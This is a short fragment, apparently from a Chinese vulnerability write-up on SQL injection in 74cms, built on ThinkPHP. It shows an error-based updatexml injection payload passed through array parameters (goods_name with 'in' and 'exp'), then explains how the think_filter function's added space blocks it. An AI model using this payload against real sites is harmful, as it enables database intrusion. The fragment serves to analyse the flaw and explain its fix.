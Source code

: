 ![](./resource/74cmsv4.2.126-前台四处sql注入/media/rId31.png)

    例如：
        没有使用think_filter 函数时
    goods_name[0]=in&goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp

    使用了think_filter函数时
      goods_name[0]=in &goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp
      注意：使用了think_filter函数时 in后面是有空格的也就是说返回值是
    goods_name[0]=in(空格)&goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp
    而正是这个空格的问题，就可以修复掉可能发生的框架注入问题。
